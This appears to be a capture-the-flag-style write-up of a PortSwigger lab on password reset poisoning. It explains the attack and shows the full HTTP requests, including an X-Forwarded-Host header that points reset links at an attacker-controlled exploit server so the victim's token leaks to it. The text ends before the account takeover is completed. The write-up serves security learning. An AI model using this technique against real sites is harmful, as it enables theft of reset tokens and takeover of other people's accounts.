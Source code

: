 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/311fc73a-63a6-4cd4-886c-b83d0432ce58)

## Overview :

**Password Reset Poisoning -**
 Password reset poisoning is a technique whereby an attacker manipulates a vulnerable website into generating a password reset link pointing to a domain under their control. This behavior can be leveraged to steal the secret tokens required to reset arbitrary users' passwords and, ultimately, compromise their accounts. 
 
 #### How this attack works ?
 
1. The attacker obtains the victim's email address or username, as required, and submits a password reset request on their behalf. When submitting the form, they intercept the resulting HTTP request and modify the Host header so that it points to a domain that they control. For this example, we'll use evil-user.net.

2. The victim receives a genuine password reset email directly from the website. This seems to contain an ordinary link to reset their password and, crucially, contains a valid password reset token that is associated with their account. However, the domain name in the URL points to the attacker's server:
    
    ```http
    https://evil-user.net/reset?token=0a1b2c3d4e5f6g7h8i9j
    ```
    
3. If the victim clicks this link (or it is fetched in some other way, for example, by an antivirus scanner) the password reset token will be delivered to the attacker's server. 
4. The attacker can now visit the real URL for the vulnerable website and supply the victim's stolen token via the corresponding parameter. They will then be able to reset the user's password to whatever they like and subsequently log in to their account. 
 
References :

  - https://www.skeletonscribe.net/2013/05/practical-http-host-header-attacks.html
  - https://portswigger.net/web-security/host-header/exploiting/password-reset-poisoning

## Solution :

The lab is a blog website,

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/cc42a1e6-2077-48df-b2d4-98dfbb24073d)
 

Clicking on *My Account* takes us to this login page,

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/53b86e71-64c5-4476-9882-cd8341df296b)

When we click on forgot password, browser sends a *POST* request to `/forgot-password` along with `username=wiener` parameter.

```http
POST /forgot-password HTTP/2
Host: 0a2a008c04ea5e04811420c2002d00da.web-security-academy.net
Cookie: session=anHQWEif1S7SLaCMKg0aHmQua1UmqfuG
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
Origin: https://0a2a008c04ea5e04811420c2002d00da.web-security-academy.net
Referer: https://0a2a008c04ea5e04811420c2002d00da.web-security-academy.net/forgot-password
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

username=wiener
```

After forwarding the above request, we can see the reset password link has been sent to wiener's email.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/736dc80f-9efd-49b4-af4f-ce01f95dc09a)




When we click the link, enter  our new password , a *GET* request is sent to /forgot-password along with a token like this

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/624308f1-4933-4217-a18c-00c8f8d4706a)


```http
POST /forgot-password?temp-forgot-password-token=olTcYZZvrY685nbSMG6vkdvD5n21IreA HTTP/2
Host: 0a2a008c04ea5e04811420c2002d00da.web-security-academy.net
Cookie: session=anHQWEif1S7SLaCMKg0aHmQua1UmqfuG
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 105
Origin: https://0a2a008c04ea5e04811420c2002d00da.web-security-academy.net
Referer: https://0a2a008c04ea5e04811420c2002d00da.web-security-academy.net/forgot-password?temp-forgot-password-token=olTcYZZvrY685nbSMG6vkdvD5n21IreA
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

temp-forgot-password-token=olTcYZZvrY685nbSMG6vkdvD5n21IreA&new-password-1=newpass&new-password-2=newpass
```

And thus we've finally changed the password of wiener using the password reset link.

#### Perform password reset poisoning on carlos -


We modify the *POST* Request sent to /`forget-password` by adding an additional header `X-Forwarded-Host=<our-server.net>`  & change `username=carlos`

```http
POST /forgot-password HTTP/2
Host: 0a2a008c04ea5e04811420c2002d00da.web-security-academy.net
Cookie: session=anHQWEif1S7SLaCMKg0aHmQua1UmqfuG
X-Forwarded-Host: exploit-0aac005904405eb2810b1f5001860011.exploit-server.net
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
Origin: https://0a2a008c04ea5e04811420c2002d00da.web-security-academy.net
Referer: https://0a2a008c04ea5e04811420c2002d00da.web-security-academy.net/forgot-password
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

username=carlos
```


Since it is given in the lab description that **user carlos will carelessly click on any links in emails that he receives**. It means he will enter his username and password for resetting his old password by clicking on our malicious link.




















